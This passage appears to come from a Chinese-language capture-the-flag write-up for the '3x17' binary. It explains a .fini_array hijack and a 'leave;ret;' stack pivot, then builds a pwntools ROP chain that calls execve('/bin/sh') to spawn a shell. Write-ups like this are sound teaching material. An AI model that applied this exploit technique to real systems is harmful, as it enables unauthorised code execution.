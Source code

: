 
   如果我们将rop的第一个gadget设置在`.fini_array`中，调用时就会使得rbp指向data段。现在的目的就是另rsp同样指到data段上，这个可以通过`leave`指令来实现，并且也有非常多的`leave;ret;`gadget，我们将`leave;ret;`作为第一个gadget，就能达到劫持rsp的目的。

#### ROP chain布置

我们可以先布置一个简单的rop chain，然后考虑其可行性，根据其执行结果来调整chain布局，首先：

```
|   leave;ret;  | gadget 1 | ... | gadget n |
.fini_array[0]
```

多次调用中的main结束后会调用.fini_array[0]，因此首先执行的gadget是`leave;ret;`。在此rop chain下esp的变化如下：

```python
esp = esp - 8 	# after call .fini_array[0]
esp = ebp+8 = .fini_array+8 	# after leave
esp = .fini_array+0x10 	# after ret;
# from now on, execute gadget 1, gadget2, ... gedget n respectively
```

可以发现，此时的gadget执行顺序是符合预期的，因此rop chain的布局是正确的。

#### gadget  选择

我们直接通过gadget调用`execve("/bin/sh",NULL,NULL)`，因此需要通过gadget满足：

```python
rax=0x3b	# syscall id of execve
rdi = address("/bin/sh")
rsi = 0
rdx = 0
syscall
```

此处的`address("/bin/sh")`可以使用任意写放到data段上的某处（比如.init_array）。这个rop chain可以直接使用pwntools来构造：

```python
from pwn import *
_bin = ELF("3x17")
_rop = ROP(_bin)
_rop(rdi=binsh_addr,rax=0x3b, rsi=0, rdx = 0)
_rop.raw(_rop.syscall.address)
print(_rop.dump())

"""
0x0000:         0x44a309 pop rdx; pop rsi; ret
0x0008:              0x0
0x0010:              0x0
0x0018:         0x41e4af pop rax; ret
0x0020:             0x3b
0x0028:         0x401696 pop rdi; ret
0x0030:         0x4b40e0
0x0038:         0x4022b4 syscall
"""
```
